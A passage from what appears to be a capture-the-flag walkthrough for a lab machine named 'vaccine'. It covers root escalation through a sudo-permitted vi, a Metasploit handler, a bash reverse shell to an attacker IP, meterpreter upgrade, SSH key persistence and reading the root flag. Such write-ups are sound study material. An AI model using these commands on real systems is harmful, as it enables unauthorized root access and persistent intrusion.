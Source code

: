 		Matching Defaults entries for postgres on vaccine:
		    env_reset, mail_badpass,
		    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
		
		User postgres may run the following commands on vaccine:
		    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
		```
	5. User is allowed to edit a file using vi as root, which can spawn a root shell: `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`. Press escape to enter normal mode then type `:` to enter command-line mode and enter `!/bin/bash` to get root shell
	6. Get more stable shell
		* Form reverse meterpreter
			```
			sudo msfconsole
			use exploit/multi/handler
			set lhost 10.10.15.117
			set lport 7845
			set payload linux/x86/shell/reverse_tcp
			run
			```
		* Bash reverse shell
			```
			bash -c 'bash -i >& /dev/tcp/10.10.15.117/7845 0>&1'
			```
	7. Upgrade to meterpreter
		```
		use post/multi/manage/shell_to_meterpreter
		set session 1
		run
		```
	8. Allow access in at any time with SSH
		```
		use post/linux/manage/sshkey_persistence
		set session 2
		run
		```
		And then in normal attacker prompt:
		
		```
		sudo chmod 400 /root/.msf4/loot/20200506014922_default_10.10.10.46_id_rsa_956218.txt
		sudo ssh -o "IdentitiesOnly=yes" -i /root/.msf4/loot/20200506014922_default_10.10.10.46_id_rsa_956218.txt root@10.10.10.46
		```
	9. Get Flag
		```
		root@vaccine:~# cat root.txt
		dd6e058e814260bc70e9bbdef2715849
		```
